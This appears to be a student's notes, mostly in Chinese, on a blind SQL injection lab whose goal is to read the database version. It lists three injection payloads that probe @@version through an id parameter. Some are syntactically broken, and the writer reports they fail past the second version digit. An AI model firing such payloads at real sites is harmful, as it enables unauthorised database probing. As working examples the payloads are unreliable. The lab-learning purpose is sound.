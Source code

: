 # SQL Injection (Blind)


> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

### 卡關 QQ

但如果再增加下去 10.x.x 的判斷會無效，崩潰

換個環境再測 db 是 `5.7.34` ，也是第二個小數點之後無法正常判斷，頂多只能判斷到 5.7

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,5)) = 10.10&Submit=Submit
```

```sql
id=1 AND (SELECT @@version) like 10.1.26-MariaDB-0+de&Submit=Submit
```

```sql
id=1 AND SELECT (SELECT @@version)) = 5.7.34&Submit=Submit
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ffffd1c6-c73a-4723-9dba-eda574016665/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T162046Z&X-Amz-Expires=86400&X-Amz-Signature=996d44a6b6eb9f6ff039d065ca28e6c15f2dae3bc3edbef07c9a1fb524da51da&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)
